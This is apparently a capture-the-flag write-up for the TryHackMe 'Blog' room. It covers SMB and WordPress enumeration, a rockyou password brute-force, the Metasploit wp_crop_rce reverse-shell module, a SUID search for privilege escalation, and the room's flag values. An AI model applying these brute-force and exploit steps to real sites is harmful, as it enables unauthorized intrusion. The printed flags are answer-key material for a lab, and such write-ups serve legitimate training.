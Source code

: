 ```yaml
---
description: Billy Joel made a Wordpress blog!
---
```


# Blog

## **Description**

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

_In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file._

_Credit to_ [_Sq00ky_](https://tryhackme.com/p/Sq00ky) _for the root privesc idea ;)_

The images used in this room have been used with the author's permission or in accordance with [Section 107 of the U.S. Copyright Act](https://www.copyright.gov/title17/92chap1.html#107).

<figure><img src="../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

### Nmap

```bash
nmap -A -Pn 10.10.89.129
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

I found out some smb, let use `enum4linux` Thank ([https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share))

### enum4linux

```bash
enum4linux -a 10.10.89.129
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Found BillySMB</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Found bjoel username</p></figcaption></figure>

### SMBClient

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Found some picture</p></figcaption></figure>

### Crack the images

```bash
steghide extract -sf Alice-White-Rabbit.jpg
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>Rabbit Hole!</p></figcaption></figure>

### Directory Enumeration

```bash
dirsearch -u http://10.10.89.129
```

Go back to the website that I already running **dirsearch.** I found the WordPress login.

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Let try the username that found from **enum4linux**.

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>Bingo!</p></figcaption></figure>

### WPScan

```bash
wpscan --url http://blog.thm --enumerate u
```

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>WordPress version 5.0</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Found more user kwheel</p></figcaption></figure>

Now, we know the WordPress version. While running the wpscan for brute-force the password. I found some vulnerability that I can reverse shell. [https://www.rapid7.com/db/modules/exploit/multi/http/wp\_crop\_rce/](https://www.rapid7.com/db/modules/exploit/multi/http/wp\_crop\_rce/)

```bash
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel,bjoel -t 64 
```

* \-t 64: Sets the number of threads to `64`, controlling how many password attempts can be made in parallel

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>kwheel : cutiepie1</p></figcaption></figure>

### Metasploit

```bash
msf > use exploit/multi/http/wp_crop_rce
msf > set RHOST blog.thm
msf > set LHOST <YOUR_IP>
msf > set LPORT <YOUR_PORT>
msf > set USERNAME kwheel
msf > set PASSWORD cutiepie1
msf > run 
```

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Create Shell environment

```bash
SHELL=/bin/bash script -q /dev/null
```

```bash
find / -type f -user root -perm -u=s 2>/dev/null
```

Used to search the entire filesystem (`/`) for files (`-type f`) owned by the user `root` (`-user root`) that have the setuid bit set (`-perm -u=s`), suppressing error messages (`2>/dev/null`)

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Check all file and found interesting thing.

```bash
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
```

```
ltrace checker
```

`ltrace`, it prints a list of all library calls made by the program as they occur.

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p>DONE!</p></figcaption></figure>

## Answer the questions below

### root.txt

```bash
find / -type f -name "root.txt"
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p>9a0b2b618bef9bfa7ac28c1353d9f318</p></figcaption></figure>

```
ANS: 9a0b2b618bef9bfa7ac28c1353d9f318
```

### user.txt

```bash
find / -type f -name "user.txt"
```

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption><p>c8421899aae571f7af486492b71a8ab7</p></figcaption></figure>

```
ANS: c8421899aae571f7af486492b71a8ab7
```

### Where was user.txt found?

```bash
ANS: /media/usb/user.txt
```

### What CMS was Billy using?

<pre><code><strong>ANS: wordpress
</strong></code></pre>

### What version of the above CMS was being used?

```
ANS: 5.0
```

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
